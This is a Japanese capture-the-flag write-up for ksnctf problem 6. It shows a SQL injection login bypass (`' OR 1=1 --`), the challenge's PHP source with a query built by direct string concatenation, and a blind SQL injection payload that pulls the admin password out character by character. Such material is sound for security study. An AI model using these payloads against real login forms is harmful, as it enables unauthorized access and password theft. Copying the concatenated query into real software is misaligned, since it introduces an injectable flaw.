 ### 問題6 参考サイト
- [問題](https://ksnctf.sweetduet.info/problem/6)
- [解説](https://linuxnosusume.blogspot.com/2017/12/ksnctf-6-login.html)
- [urllib3](https://note.com/tomtom_0301/n/n980969ea4756)
- [SQL注入](https://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/502.html)

### 解法

1. 以下をID欄に入力  
`' OR 1=1 --`  
これには以下の意味があり、この文字列をパラメータとして与えられた場合は、ユーザIDが常に返ってくる  
```
'       ： ひとつ前の「'」と対となり、文字列定数を終わらせる  
OR 1=1  ： uidの値に関係なく、検索条件を、真とさせる
--      ： それ以降の内容をコメントとして無視させる
```

結果として以下のページが返ってくる
```
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT);
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

2. 以下をID欄に入力  
`admin'  AND SUBSTR((SELECT pass FROM user WHERE id='admin'),1,1) = 'F'--`
3. この[コード](../codes/p6.py)を実行  
### メモ
**ブラインドSQLインジェクション**  
挿入したSQLに対する応答ページの違いから、データベース管理システムに関する情報（実行ユーザーやテーブル名など）を盗み出す

